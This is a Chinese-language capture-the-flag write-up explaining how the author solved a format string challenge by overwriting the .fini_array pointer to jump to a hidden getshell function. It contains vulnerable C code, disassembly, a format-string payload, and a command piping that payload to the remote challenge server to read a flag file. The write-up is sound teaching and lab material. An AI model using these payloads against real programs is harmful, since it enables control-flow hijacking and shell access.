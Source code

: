 一道有趣的pwn题目，来自[浙江大学AAA战队](zjusec.com)(仅限校内访问)

## 题目描述

```shell
Description
Format String Bug
nc 10.214.10.13 11005
cat /data/flag
```

题目的提示链接中给出了一个可执行文件，执行效果和执行`nc 10.214.10.13 11005`是一样的，应该就是服务器端的可执行文件。中间有一段时间可以输入任意字符串，通过构造字符串来执行下面的shell代码。

## 解题过程

* **FormatStringBug**

  先google了一波formatStringbug，找到了Standford一篇[pdf文档](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)，从原理上讲得比较透彻；还有一篇[中文博客](http://www.cnblogs.com/0xJDchen/p/5904816.html)偏重实际操作，两篇结合起来看，容易理解一些。

  中文博客中给出了代码(来自Protostar format3)：

  ```c
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>
  #include <string.h>

  int target;

  void printbuffer(char *string)
  { 
    printf(string);
  }
   
  void vuln()
  {
    char buffer[512];
    fgets(buffer, sizeof(buffer), stdin);
    printbuffer(buffer);
    if(target == 0x01025544) {
        printf("you have modified the target :)\n");
    } else {
        printf("target is %08x :(\n", target);
    }
  }

  int main(int argc, char **argv)
  {
    vuln();
  }
  ```

  编译的时候需要禁止堆栈保护：

  >gcc without stact protect:  
  >
  >-fstack-protector：启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码。  
  >
  >-fstack-protector-all：启用堆栈保护，为所有函数插入保护代码。  
  >
  >-fno-stack-protector：禁用堆栈保护。

  ```shell
  gcc -fno-stack-protector -g -o formatstring formatstring.c -m32
  ```

  按照博客中说明，可以实现任意地址内容的修改，文中是修改了变量target的值。

* **fsb_easy**

  对于题目中的程序，先用objdump进行反汇编操作：

  ```shell
  objdump -D fsb_easy_i386 > fsb_asm.s
  ```

  得到汇编代码中有一段：

  ```assembly
  0804861f <getshell>:
   804861f:	55                   	push   %ebp
   8048620:	89 e5                	mov    %esp,%ebp
   8048622:	83 ec 08             	sub    $0x8,%esp
   8048625:	83 ec 0c             	sub    $0xc,%esp
   8048628:	68 c8 87 04 08       	push   $0x80487c8
   804862d:	e8 2e fe ff ff       	call   8048460 <system@plt>
   8048632:	83 c4 10             	add    $0x10,%esp
   8048635:	90                   	nop
   8048636:	c9                   	leave  
   8048637:	c3                   	ret    
  ```

  该函数叫做getshell，但是在main函数相关代码中并没有调用它，猜想应该是作者一个比较人性化的设计，想办法劫持pc执行getshell函数，降低题目难度。现在的问题就是如何劫持pc了，斯坦福的pdf文档中提到了很多种可能的利用方式，这里还查到在elf文件的`.fini_array`节保存了函数的指针，通过修改该地址的指向，也可以达到劫持pc的效果。

  汇编代码种可以看到`.fini_array`节的地址是0x8049a68，`getshell`函数的地址是0x804861f，目标是：

  ***0x8049a68 =  0x804861f **

  先查看printf函数的buffer在栈上的偏移：

  ```shell
  AAAA %08x %08x %08x %08x %08x %08x 
  ```

  返回信息为：

  ```
  AAAA 00000200 f7742c20 00000000 41414141 38302520 30252078
  ```

  AAAA相对于当前位置的偏移为4，然后就想办法构造字符串将getshell函数的地址写入.fini_array节的指针中：

  ```shell
  python -c 'print "\x68\x9a\x04\x08\x69\x9a\x04\x08\x6a\x9a\x04\x08\x6b\x9a\x04\x08%.15x%4$n%.103x%5$n%(num1)x%6$n%.(num2)x%7$n"' |./fsb_easy_i386
  ```

  上述代码中`%4$n`表示将栈上第4个位置的内容写为一个整数，整数为前面字符串的长度，`%15x`用于控制字符长度，使得整数是我们想要的值。

  此时栈上第4个位置为0x08049a68，前面共有四个地址16字节+15字节，刚好是31，也就是16进制的1f，之后的值类似（i386地址为小端模式），代码中的num1和num2我隐去了，还是希望读者能自己算一下。

  这样就可以调用程序中的getshell函数了，获取flag的话只要稍微加一句就好了：

  ```shell
  python -c 'print "\x68\x9a\x04\x08\x69\x9a\x04\x08\x6a\x9a\x04\x08\x6b\x9a\x04\x08%.15x%4$n%.103x%5$n%(num1)x%6$n%.(num2)x%7$n"; print "cat /data/flag"' |nc xxx.xxx.xxx.xxx xxxxx
  ```

  ##  Tricks

  * 用管道来输入字符串

    地址中0x0804xxxx这些无法直接输入，这里采用pipline的方式输入("|")，用python格式化字符串来作为后面的输入

  * 用gdb调试程序

    构造字符串的时候结合gdb观察指定地址有没有被修改为想要内容

    * 设置断点：

      ```assembly
      b *0x0804xxxxx
      ```

    * 查看地址内容：

      ```
      p *0x0804xxxx
      ```


    * 用重定向输入字符串

      gdb调试的时候可以先用python把构造好的字符串写入txt文件(大佬们直接用hexedit编辑)，然后用重定向输入：

      ```shell
      (gdb)> r < textfile
      ```

  * 进位问题

    这里构造字符串的时候是从小端开始构造的：0x1f，0x86，0x04，0x08 ；再构造0x04的时候会产生进位貌似会对构造0x08产生影响，本来0x08比0x04多4，那直接构造%4x就好，但是gdb看取1，2，3，4都是0x0b；试着加了256后就正确了。





## 参考文献:

1. https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
2. http://www.cnblogs.com/0xJDchen/p/5904816.html
3. https://samsclass.info/127/proj/p6-fs.htm